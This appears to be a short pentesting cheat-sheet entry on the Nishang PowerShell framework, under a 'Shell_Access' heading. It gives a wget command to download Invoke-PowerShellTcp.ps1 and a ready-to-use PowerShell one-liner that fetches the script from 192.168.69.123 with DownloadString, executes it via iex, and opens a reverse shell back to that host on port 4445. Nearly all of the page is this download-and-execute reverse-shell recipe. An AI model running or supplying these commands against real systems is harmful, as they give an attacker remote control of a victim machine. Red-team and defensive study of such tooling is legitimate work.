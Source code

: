 > Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.


#Shell_Access 

# Download

Download `Invoke-PowerShellTcp.ps1`
```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

# Usage

Usage
```
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.69.123/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.69.123 -Port 4445
```